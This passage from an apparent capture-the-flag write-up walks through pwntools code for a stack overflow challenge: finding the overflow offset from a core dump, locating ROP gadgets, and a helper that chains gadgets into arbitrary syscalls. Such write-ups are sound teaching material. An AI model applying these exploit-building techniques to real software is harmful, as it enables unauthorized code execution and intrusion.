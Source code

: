As for `filesize`, no idea how long the flag is.  `100` was a guess for the upper limit.


### Find offset

```python
# find offset
p = process(binary.path)
p.sendline(cyclic(1024,n=8))
p.wait()
core = p.corefile
p.close()
os.remove(core.file.name)
offset = cyclic_find(core.read(core.rsp, 8),n=8)
log.info('offset: ' + str(offset))
log.info('rip: ' + hex(core.rip))
```

While the offset has already been determined I still like to have it computed, and the reported `rip` is a useful reminder for what to set my breakpoint to when attaching a debugger (which I had to, to find the `fd` value, and troubleshoot).


### Find gadgets

```python
try:
    rop = ROP([binary])
    pop_rax = rop.find_gadget(['pop rax','ret'])[0]
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
    pop_rsi = rop.find_gadget(['pop rsi','ret'])[0]
    pop_rdx = rop.find_gadget(['pop rdx','ret'])[0]
    pop_r10 = list(binary.search(asm('pop r10; ret')))[0]
    pop_r9  = list(binary.search(asm('pop r9;  ret')))[0]
    pop_r8  = list(binary.search(asm('pop r8;  ret')))[0]
    sys_ret = list(binary.search(asm('syscall; ret')))[0]
except:
    log.info('no ROP for you!')
    sys.exit(0)
```    

This is a frequent problem with pwnlib; it will not find all gadgets.  Using `asm` and `search` to fill in the gaps is a common stopgap (for me at least).

I was actually surprised all of them were there.


### Generic syscall function

```python
def syscall(rax=None,rdi=None,rsi=None,rdx=None,r10=None,r9=None,r8=None):
    assert(rax != None)
    payload = b''
    if rdi != None: payload += p64(pop_rdi) + p64(rdi)
    if rsi != None: payload += p64(pop_rsi) + p64(rsi)
    if rdx != None: payload += p64(pop_rdx) + p64(rdx)
    if r10 != None: payload += p64(pop_r10) + p64(r10)
    if r9  != None: payload += p64(pop_r9)  + p64(r9)
    if r8  != None: payload += p64(pop_r8)  + p64(r8)
    return payload + p64(pop_rax) + p64(rax) + p64(sys_ret)
```    
